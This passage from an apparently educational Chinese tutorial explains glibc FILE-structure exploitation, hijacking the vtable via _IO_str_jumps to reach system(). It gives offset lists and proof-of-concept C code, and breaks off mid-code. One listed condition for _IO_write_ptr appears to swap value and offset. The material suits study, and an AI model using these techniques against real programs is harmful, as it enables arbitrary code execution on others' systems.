 ```c
    *(char*)(fp) = (char)0;

    // 最终调用函数为fp->_s._free_buffer，偏移为0xe8
    *(size_t*)((char*)fp + 0xe8) = (size_t)winner;

    // vtable我们设置为_IO_str_jumps - 8,由此一来要调用的vtable[3]就成为了_IO_str_finish而不是_IO_OVERFLOW
    // _IO_str_jumps的值比_IO_file_jumps的值要大0xc0
    size_t _IO_str_jumps_ = (size_t)(*(size_t*)((char*)fp + 0xd8)) + 0xc0;

    // 设置为_IO_str_jumps - 8
    *(size_t*)((char*)fp + 0xd8) = _IO_str_jumps_ - 8;

    exit(1);
    // // 最终会在exit、return、以及libc执行abort调用。
    // return 0;
}
```

总结一下函数调用链`_IO_flush_all_lockp() -> _IO_str_finish() -> system()`需要满足的条件：

- `fp -> _IO_write_ptr`大于`fp -> _IO_write_base` ，分别对应`fp`偏移`0x20`和`0x28`（这是`_IO_flush_all_lockp()`要满足的条件）
- `fp -> _flag`最低为为`0`，偏移为`0x0`
- 设置`vtable`为`_IO_str_jumps - 0x8`，定位`_IO_str_jumps`可以通过`_IO_file_jumps`等虚表定位。
- `fp -> _IO_buf_base`存放要执行函数的参数的地址，偏移为`0x38`
- `(_IO_strfile* )fp -> _s._free_buffer`存放要执行的函数，对应偏移为`0xe8`

## 另一条调用链 _IO_flush_all_lockp -> _IO_str_overflow（<=glibc2.27可用）

原理和上面的利用链是一样的，我们此处不再详细阐述，仅仅写下需要构造的条件来供查阅。

- `fp -> _flag`最低两字节为`0`。其偏移为`0`。
- `fp -> _vtable`指向`_IO_str_jumps`。`_vtable`偏移为`0xd8`
- 偏移`0xe0`处为要执行的函数，例如`system`
- `fp -> _IO_buf_base`为`0`，其偏移为`0x38`
- `fp -> _IO_buf_end`为`(bin_sh_addr - 100) / 2`，其偏移为`0x40`。其中`bin_sh_addr`是函数参数的地址，若为奇数需要`+1`
- `fp -> _IO_write_base`为`0`，其偏移为`0x20`
- `fp -> _IO_write_ptr`为`0`，其偏移为`(bin_sh_addr - 100) / 2 + 1`

上面是通常情况下可以调用函数的参数设置，也可以看下面的C语言实现，其中注释包含了详细的要求：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void winner(char* code){
    // system("echo win");
    printf("you got it!\n");
    printf("The code is :%s.\n", code);
    system(code);
}

// fake_vtable.c中写的是利用_IO_str_jump表中的_IO_finish函数，而本代码中使用_IO_str_jump表中的_IO_overflow函数
int main(){
    // 我们通过打开一个文件的方式，来得到一个_IO_FILE_plus指针fp
    FILE* fp = fopen("./flag", "r");

    // _IO_write_base相对于fp偏移为0x20
    // _IO_write_ptr为0x28
    // _IO_buf_base为0x38
    // _IO_buf_end为0x40

    // 要满足fp->_flags & _IO_NO_WRITES 为假，而_IO_NO_WRITES的值为8，因此倒数第二个字节要为0
```